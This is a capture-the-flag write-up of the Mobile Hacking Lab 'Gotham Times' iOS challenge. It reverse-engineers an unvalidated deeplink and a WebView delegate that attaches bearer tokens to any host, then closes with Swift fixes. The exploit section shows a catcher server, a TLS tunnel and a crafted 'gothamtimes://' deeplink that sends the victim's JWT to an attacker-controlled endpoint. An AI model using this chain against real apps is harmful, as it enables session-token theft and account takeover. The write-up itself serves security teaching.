




A walkthrough of the Mobile Hacking Lab "Gotham Times" iOS challenge. The app
exposes a custom URL scheme that loads an attacker-controlled URL into a
`WKWebView`, and the WebView delegate attaches the user's bearer token to every
outbound request without checking the host. Chaining the two lets a single
deeplink exfiltrate the victim's JWT (and the flag) to a server you control.

## Target

- App: `Gotham Times.app`, bundle ID `com.mobilehackinglab.Gotham-Times`
- Binary: arm64 Swift, `WKWebView`-based, Keychain-backed auth
- Goal: craft a deeplink that steals the user's authentication token

## Recon

### Info.plist

The app registers a custom URL scheme:

```xml
<key>CFBundleURLTypes</key>
<array>
    <dict>
        <key>CFBundleURLSchemes</key>
        <array>
            <string>gothamtimes</string>
        </array>
    </dict>
</array>
```

So `gothamtimes://` deeplinks are routed into the app. There is no
`NSAppTransportSecurity` key, meaning default ATS applies: the WebView will
refuse plain `http`, so any exfil endpoint needs valid TLS.

### Binary triage

```bash
rabin2 -I "Gotham Times"   # arch, lang, protections
rabin2 -i "Gotham Times"   # imports
rabin2 -s "Gotham Times"   # symbols
```

The binary is Swift, links `WebKit`, and imports the Keychain API
(`SecItemAdd`, `SecItemCopyMatching`, `SecItemDelete`) alongside
`kSecClassGenericPassword` / `kSecValueData`. The symbol table hands us the
design on a plate:

```
_$s12Gotham_Times12saveJWTToken5tokenySS_tF        // saveJWTToken(token:)
_$s12Gotham_Times11getJWTTokenSDyS2SGSgyF          // getJWTToken()
_$s12Gotham_Times20authenticatedRequest3url...     // authenticatedRequest(url:)
NewsController.webView:decidePolicyForNavigationAction:decisionHandler:
SceneDelegate.scene:openURLContexts:
SceneDelegate.getQueryStringParameter(url:param:)
NewsController.loadPage()
```

So: the token is a JWT stored in the Keychain, and there is a function that
builds an "authenticated request." The two interesting sinks are the deeplink
handler (`scene:openURLContexts:`) and the WebView policy delegate
(`decidePolicyForNavigationAction:`).

### Decoding Swift inline string constants

Decompiling, the string literals show up as hex immediates rather than readable
text. Swift stores short strings (<= 15 bytes) inline as little-endian bytes,
with the top byte `0xE?` marking a small ASCII string of length `?`. Reverse
the bytes to read them:

```python
>>> bytes.fromhex('20726572616542')[::-1]
b'Bearer '
```

Applying that across both functions:

| Immediate                         | Decoded         | Role                                   |
|-----------------------------------|-----------------|----------------------------------------|
| `0x6e65706f`                      | `open`          | expected deeplink host                 |
| `0x6c7275`                        | `url`           | query parameter name                   |
| `0x6e69614d`                      | `Main`          | storyboard name                        |
| `0x20726572616542`                | `Bearer `       | auth scheme prefix                     |
| `0x6e656b6f74`                    | `token`         | key into `userDetails`                 |
| `0x7a69726f68747541` + `...6e6f6974...` | `Authorization` | header name                      |
| `0x69746d6168746f67` + `...73656d`| `gothamtimes`   | own scheme (skip list)                 |
| `0x7b47414c46` / `0x67616c66`     | `FLAG{` / `flag`| flag header                            |

## Vulnerability 1: unvalidated deeplink parameter

`SceneDelegate.scene:openURLContexts:` handles incoming deeplinks. The Ghidra
decompiler output, trimmed to the logic with the decoded constants annotated:

```c
// SceneDelegate.scene(_:openURLContexts:)   (Ghidra, trimmed)
_$s10Foundation3URLV4hostSSSgvg();                       // host = url.host
if ((uVar17 == 0x6e65706f) && (lVar9 == -0x1c00000000000000)) {   // host == "open"

    _$s10Foundation3URLV14absoluteStringSSvg();          // url.absoluteString
    getQueryStringParameter(url, 0x6c7275 /* "url" */);  // value = ?url=...

    if (param != nil) {
        storyboardWithName: 0x6e69614d /* "Main" */ ...
        instantiateViewControllerWithIdentifier: ...      // tab bar -> tab 0
        _swift_dynamicCastClassUnconditional(IVar20, NewsController);

        puVar1  = IVar20 + NewsController::urlToLoad;
        *puVar1 = param;                                  // urlToLoad = attacker URL
        NewsController.loadPage();                        // load it
    }
}
```

`getQueryStringParameter` just walks `URLComponents.queryItems` and returns the
`.value` of the first item named `url`:

```c
// SceneDelegate.getQueryStringParameter(url:param:)   (Ghidra, trimmed)
URLComponents(string: url).queryItems
  foreach item:
     if (item.name == param) return item.value          // no filtering
```

The returned value is assigned straight into `NewsController.urlToLoad` with
**no scheme, host, or prefix check**. The only gates are `host == "open"` and
the parameter being non-nil.

`loadPage()` then wraps it in a `URLRequest` and navigates:

```c
// NewsController.loadPage()   (Ghidra, trimmed)
URL(string: self.urlToLoad)
URLRequest(url:, cachePolicy:, timeoutInterval: 0x404e000000000000 /* 60.0 */)
self.webView.loadRequest(req)
```

We fully control the URL the WebView navigates to.

## Vulnerability 2: credentials attached to every host

`NewsController.webView:decidePolicyForNavigationAction:decisionHandler:` is
where it becomes a token leak. The decompiler output, trimmed:

```c
// NewsController.webView(_:decidePolicyFor:decisionHandler:)   (Ghidra, trimmed)
local_80 = 0x20726572616542;                 // "Bearer "
...
lVar25 = 0x6e656b6f74;                        // "token"
__RawDictionaryStorage.find(userDetails, "token");
_$sSS6appendyySSF(bearer, token);             // token = "Bearer " + userDetails["token"]
...
_$s10Foundation3URLV6schemeSSSgvg();          // url.scheme
if (scheme == "gothamtimes") {                // 0x69746d6168746f67 ...
    UIApplication.openURL(url); decisionHandler(cancel);
}
else if (!hasAuthorizationHeader) {
    decisionHandler(cancel);
    // clone request, then:
    _NativeDictionary.setValue(req.headers,
        value: bearer,  key: 0x7a69726f68747541 /* "Authorization" */);

    local_80 = 0x7b47414c46;                   // "FLAG{"
    _$sSS6appendyySSF(flagValue, ...);         // build FLAG{...}
    _NativeDictionary.setValue(req.headers,
        value: flagValue, key: 0x67616c66 /* "flag" */);

    webView.loadRequest(req);                  // reload WITH the header
}
// second pass: hasAuthorizationHeader == true -> decisionHandler(allow)
```

There is no `url.host` comparison anywhere in this function. For **any**
non-`gothamtimes` navigation that does not already carry the header, the
delegate cancels it, clones the request, adds `Authorization: Bearer <JWT>`
plus a `flag` header, and reloads. The second pass sees the header and allows
it, so the request, now carrying the token, reaches whatever host the URL
points at.

Combined with vulnerability 1, that host is attacker-controlled.

## Exploit

### 1. Catcher server

A small endpoint ([`catcher.py`](/assets/files/mhl-gotham-times/catcher.py)) that logs request headers, highlights `Authorization`
and `flag`, and decodes the JWT:

```bash
python3 catcher.py --port 8000
```

ATS blocks plain `http`, so front it with a tunnel that terminates TLS with a
publicly trusted cert:

```bash
cloudflared tunnel --url http://localhost:8000
```



### 2. Fire the deeplink

The `url=` value must be percent-encoded so `URLComponents` keeps it as a single
query item (otherwise everything after the first `&` becomes a separate item and
is dropped):

```bash
uiopen 'gothamtimes://open?url=https%3A%2F%2F<random>.trycloudflare.com%2F'
```



From a victim's perspective this is a tapped link or a redirect; `uiopen` just
simulates the tap on a jailbroken test device. The WebView loads our endpoint
and renders the catcher's `{"status":"ok"}` response:



### 3. Captured

The victim must be logged in, since `decidePolicyFor` reads
`userDetails["token"]` and a logged-out session hits the nil check and crashes
instead of leaking. With a session present, the catcher receives the bearer
token and the flag header (both redacted below):



```
Authorization: Bearer eyJ0eXAiOiJKV1Qi...<redacted>
  JWT header:  {"typ":"JWT","alg":"HS256"}
  JWT payload: {"username":"test333","iat":1795073827}
Flag: FLAG{...redacted...}
```

Full account takeover: that JWT is the session, and `authenticatedRequest`
replays it against the real API.

## Root cause and fix

Two independent failures, both needed for the chain:

1. **Deeplink loads an arbitrary URL.** The `url=` parameter goes into the
   WebView with no validation.
2. **Credentials are host-agnostic.** The WebView delegate attaches the bearer
   token to requests for any host, not just the app's own API.

Fix the deeplink handler to allowlist scheme and host before loading:

```swift
guard let value = getQueryStringParameter(url: url, param: "url"),
      let target = URL(string: value),
      target.scheme == "https",
      target.host == "api.gothamtimes.example"   // your origin only
else { return }
newsController.urlToLoad = target.absoluteString
```

And attach the token only to your own origin, since the WebView can still be
navigated elsewhere after the first load:

```swift
let allowedHosts: Set<String> = ["api.gothamtimes.example"]
if let host = navigationAction.request.url?.host, allowedHosts.contains(host) {
    // add Authorization here
}
decisionHandler(.allow)
```

Both matter. Allowlisting only the deeplink still leaks the token if an allowed
page redirects or links off-origin; allowlisting only the header stops the leak
but leaves the open-redirect-into-WebView. Defense in depth also means not
shipping sensitive values (like the `flag` header) to WebView navigations at
all.

## Takeaways

- Custom URL schemes are an untrusted input boundary. Treat every component of
  a deeplink as hostile and validate scheme + host before acting on it.
- Scope credentials to the exact origin that needs them. A WebView will happily
  navigate anywhere, so "attach the token to the current request" is a leak
  waiting for an open redirect.
- Swift inline string literals are trivial to recover from a stripped binary
  once you know the little-endian + length-tag encoding. A lot of the logic
  here was readable without ever running the app.
